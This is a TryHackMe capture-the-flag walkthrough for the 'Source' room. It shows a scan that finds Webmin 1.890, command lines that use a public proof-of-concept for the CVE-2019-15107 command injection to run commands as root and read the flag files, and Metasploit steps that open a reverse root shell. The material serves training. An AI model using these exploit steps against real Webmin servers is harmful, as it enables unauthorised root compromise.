




## **TryHackMe: Source – Room Walkthrough**

This room focuses on exploiting a vulnerable `Webmin` instance. It’s a great example of how a single unpatched service can lead to a full system compromise.

### **1. Reconnaissance**

I started by scanning the target machine to see what services were running. I used `nmap` with service detection and a full port scan.

`nmap -sV -T5 -p- -vv 10.49.170.170`

**Results:**

- **Port 22/tcp:** OpenSSH 7.6p1 (Ubuntu)
- **Port 10000/tcp:** MiniServ 1.890 (Webmin httpd)

```bash
┌─[dsk@parrot]─[~/THM/Source]
└──╼ $nmap -sV -T5 -p- -vv 10.49.170.170
PORT      STATE SERVICE REASON  VERSION
22/tcp    open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
10000/tcp open  http    syn-ack MiniServ 1.890 (Webmin httpd)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The standout here is **Webmin 1.890**. I know from my research that this specific version is famous for a critical backdoor vulnerability (CVE-2019-15107) in its password reset functionality.

---

### **2. Exploitation (The Manual Way)**

Instead of jumping straight into Metasploit, I decided to use a Python-based PoC (Proof of Concept) script I found on GitHub.

**The Exploit:** `webmin_exploit.py`

**Link:**  https://github.com/n0obit4/Webmin_1.890-POC/blob/master/Webmin_exploit.py

This script targets the `password_change.cgi` component. It exploits a command injection vulnerability because the application doesn't properly sanitise the `user` parameter when a password has expired.

### **Checking Permissions**

First, I wanted to see who I was running as. I executed the `whoami` command through the script:

`python webmin_exploit.py -host 10.49.170.170 -port 10000 -cmd whoami`

The output returned `root`. Since I already had the highest level of access, I didn't need to perform any further privilege escalation.



### **Retrieving the Flags**

Now that I had Remote Code Execution (RCE) as root, grabbing the flags was straightforward.

- **User Flag:**
    
    `python webmin_exploit.py -host 10.49.170.170 -port 10000 -cmd "cat /home/dark/user.txt"`
    
    
    
- **Root Flag:**
    
    `python webmin_exploit.py -host 10.49.170.170 -port 10000 -cmd "cat /root/root.txt"`
    
    
    

---

### **3. Alternative Method: Metasploit**

If you prefer using a framework, Metasploit makes this process extremely fast.

1. **Search:** `search webmin_backdoor`
2. **Select:** `use exploit/linux/http/webmin_backdoor`
3. **Configure:** * Set `RHOSTS` to the target IP.
    - Set `LHOST` to my Tun0 IP.
    - Set `SSL` to `true` (important as Webmin often runs over HTTPS).
4. **Execute:** `exploit`

This dropped me directly into a root shell, allowing for full interaction with the target system.

---

### **Conclusion**

The **Source** room is a textbook example of why keeping administrative software updated is vital. By exploiting a known backdoor in an outdated version of Webmin, I was able to bypass all authentication and gain root access in seconds.

**Key Takeaway:** Always check the version numbers of web management interfaces—they are high-value targets for attackers!

